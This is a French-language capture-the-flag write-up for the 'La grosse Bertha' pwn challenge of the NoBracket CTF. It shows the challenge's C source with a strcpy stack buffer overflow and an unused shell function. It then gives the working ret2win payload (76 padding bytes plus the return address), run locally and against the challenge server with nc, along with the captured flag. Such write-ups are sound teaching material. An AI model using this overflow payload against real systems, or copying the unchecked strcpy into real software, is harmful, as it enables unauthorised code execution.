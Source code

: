 ```yaml
---
layout: post
title: La grosse Bertha
subtitle: Write-Up pour le NBCTF
tags: [writeup, pwn, nbctf]
comments: true
---
```

Bonjour ! Voici mon write-up sur le challenge **La grosse Bertha** à l'occasion du NoBracket CTF. Il s'agit de mon troisième write-up, alors n'hésitez pas à aller voir les autres après avoir lu celui-là !
Je ne suis d'ordinaire pas très fan de pwn, mais j'ai apprécié faire ce challenge, qui m'a remis les basiques de l'exploitation de binaire en tête. Merci donc à `MaitreChiffon` pour cela. Mais sur ce, passons au write-up !

## Premier coup d'œil
![Challenge](https://cdn.discordapp.com/attachments/822188888297963560/1175380527801454694/Capture_decran_34.png?ex=656b056b&is=6558906b&hm=7d97a060ac7f251fb39adc2b4cdca9cbd8389c70ad9209ee41ca16cd92c5bbb0&){: .mx-auto.d-block :}

Ce challenge dispose de deux fichiers, un binaire ainsi que le code source, écrit en C, de ce binaire. Enfin, une adresse en remote est fournie avec ce challenge, pour pouvoir réaliser le challenge à distance et ainsi avoir le flag. Mais regardons le code source fourni avant de nous atteler à l'exploitation.

## Identification de la vulnérabilité
Nous nous retrouvons donc avec un fichier `TheBigBertha.c`, dont voici le code source :
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>


void shell(){

    setreuid(geteuid(),geteuid());
    system("/bin/bash");
}


void foo(char *msg){

    char buf[64];
    puts("Delta Charlie. Ordre bien reçu.");
    strcpy(buf,msg);
    printf("La cible est : %s\n", buf);
}

void init() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

int main(int argc, char **argv)
{
    init();
    puts("Entrez la cible :");
    char input[512];
    fgets(input, 511, stdin);
    if(strlen(input) > 1)
    {
        foo(input);
    }
    else{
 	puts("Veuillez entrer une chaine de caractères.");
    }

    printf("Programme is exiting normally ! \n");
    return 0;
}
```

Nous avons 4 fonctions, intitulées `shell`, `foo`, `init` et `main`. La fonction `init` ne nous intéressera pas ici. Mais nous remarquons quelque chose. Une fonction n'est jamais appelée dans le programme, et il s'agit de la fonction `shell`, qui nous permet de faire spawn un shell ! Et donc sûrement de récupérer le flag ! Nous sommes donc sur ce qu'on appelle un ret2win, c'est-à-dire que nous allons chercher à exploiter ce programme pour appeler cette fonction. Mais regardons où se situe cette vulnérabilité.
Nous pourrions tout d'abord penser qu'elle se situe dans `main`, mais aucune fonction non sécurisée n'est appelée. En effet, ici, `fgets` est la version sûre du traditionnel `gets`. Rien à faire ici donc, puisque `fgets` récupère uniquement 511 caractères de `stdin`. 

{: .box-note}
**Note:** Et pourquoi pas 512 caractères ? Tout simplement parce que le dernier caractère est réservé au caractère nul (le fameux `\0` !)

Par la suite, la variable `input` sera passée en argument à la fonction `foo`. Nous regardons donc cette fonction, toujours à la recherche d'une vulnérabilité. Et puis là, nous voyons le problème immédiatement.

![strcpy](https://cdn.discordapp.com/attachments/822188888297963560/1175385452811931648/86h1e0.jpg?ex=656b0a01&is=65589501&hm=6cd10817881fa0e1af5e06454f1dff5a885b08fa9e422cdd209bb6f0390ecca6&){: .mx-auto.d-block :}

Et oui ! Le `strcpy` ici permet un buffer overflow. Mais comment cela se fait-il ? Eh bien, tout simplement, la variable `input` peut faire au maximum 512 caractères, et nous avons un `strcpy` dans la variable `buf`... Qui fait au maximum 64 caractères. Donc là, c'est l'overflow.
Nous pouvons vérifier ça assez simplement.
```console
blackraven@blackraven:~$ python3 -c "print('A'*64)" | ./TheBigBertha
Entrez la cible :
Delta Charlie. Ordre bien reçu.
La cible est : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Programme is exiting normally !
```
Ici, tout marche. Mais si nous mettons une taille de 100...
```console
blackraven@blackraven:~$ python3 -c "print('A'*100)" | ./TheBigBertha
Entrez la cible :
Delta Charlie. Ordre bien reçu.
La cible est : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Segmentation fault
```
Nous avons l'erreur de segmentation ! What's next ? Passons à l'exploitation !

## Exploitation

Avant toute chose, nous devons regarder l'adresse de la fonction `shell`, afin de pouvoir écraser l'adresse de retour avec l'adresse de `shell`.
Un petit tour sur `gdb` (avec bien sûr `pwndbg` et pas `peda`) nous renseigne assez vite sur l'adresse de la fonction `shell`, dont la première instruction se situe à l'adresse `0x080491f6`.

{: .box-note}
**Note:** Il ne faudra pas oublier de mettre notre adresse en little endian ! Ce qui donnera `\xf6\x91\x04\x08` !

On continue notre roadtrip sur `gdb` pour voir le padding nécessaire pour écraser le registre `EIP` avec la valeur de retour de notre adresse. Un outil très pratique, nommé `cyclic`, va nous permettre de faire cela.
![gdb](https://cdn.discordapp.com/attachments/822188888297963560/1175418096203341855/Capture_decran_35.png?ex=656b2868&is=6558b368&hm=e5eb5a6ad597aabf5c434c57efbcb28d1f1c768443daad8286283ef594e333e1&){: .mx-auto.d-block :}

Comme vous pouvez le voir, cyclic indique ici un offset de 76. On teste donc avec cette offset en utilisant python2, et non pas python3 (ce dernier a tendance à faire n'importe quoi, ce qui fait que votre payload, même s'il est juste, ne marchera pas).
```console
blackraven@blackraven:~$ python2 -c 'print "A"*76+ "\xf6\x91\x04\x08" ' | ./TheBigBertha
Entrez la cible :                                                                                                                                                                                               Delta Charlie. Ordre bien reçu.                                                                                                                                                                                 La cible est : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA                                                                                                                                                                                                                                                                                                                                     Segmentation fault
```
Et... il ne se passe rien. Est-ce qu'on a fait quelque chose de mal ? Non, ça ne se voit peut-être pas, mais notre payload marche. Un shell spawn, mais se referme immédiatement ! Il faut donc rajouter une commande, comme `cat`, permettant de garder le shell en vie.
On recommence donc :
```console
blackraven@blackraven:~$ (python2 -c 'print "A"*76+ "\xf6\x91\x04\x08" '; cat) | ./TheBigBertha
Entrez la cible :                                                                                                                                                                                               Delta Charlie. Ordre bien reçu.                                                                                                                                                                                 La cible est : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA                                                                                                                                                                                                                                                                                                                                     ls                                                                                                                                                                                                              TheBigBertha  TheBigBertha.c
```
Et ça marche ! Notre payload est fonctionnel en local, donc plus qu'à flagger en remote !
![meme](https://cdn.discordapp.com/attachments/822188888297963560/1175421284990066738/86h9ua.jpg?ex=656b2b60&is=6558b660&hm=5b128794bcb338703cd29fecddb422aa9dc73366ab70f1919606146ea6ab1442&){: .mx-auto.d-block :}

## Plus qu'à flag en remote !
Il ne nous reste plus grand chose à faire maintenant. On se connecte donc en remote à `thebigbertha.nobrackets.fr` sur le port `30343`.
```console
blackraven@blackraven:~$ (python2 -c 'print "A"*76+ "\xf6\x91\x04\x08" '; cat) | nc thebigbertha.nobrackets.fr 30343
Entrez la cible :                                                                                                                                                                                               Delta Charlie. Ordre bien reçu.                                                                                                                                                                                 La cible est : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA                                                                                                                                                                                                                                                                                                                                     ls                                                                                                                                                                                                              password.txt                                                                                                                                                                                                    pwn                                                                                                                                                                                                             cat password.txt                                                                                                                                                                                                NBCTF{4_M0r3_D1FF1CU17_0V3rF10W_66}                                                                                                                                                                             exit
```

On a notre flag : `NBCTF{4_M0r3_D1FF1CU17_0V3rF10W_66}` !
Comme quoi, ça a du bon de crier "AAAAAA" sur La Grosse Bertha.

![meme2](https://cdn.discordapp.com/attachments/811715744835567616/999765823356948520/hacker.png?ex=6568e7fb&is=655672fb&hm=8dc2cd9f820ac46f47c3965e792aa67804bb8d9e64eb2f523bb27e536c921c69&){: .mx-auto.d-block :}


## Conclusion

J'ai bien aimé ce challenge, que j'ai trouvé très sympa à faire étant donné que cela rappelle les basiques et la méthodo de l'exploitation de binaire. Un petit ret2win fort sympathique, qui ne présage que du bon pour les challenges de la finale ! ALLEZ, EN AVANT BERTHA !
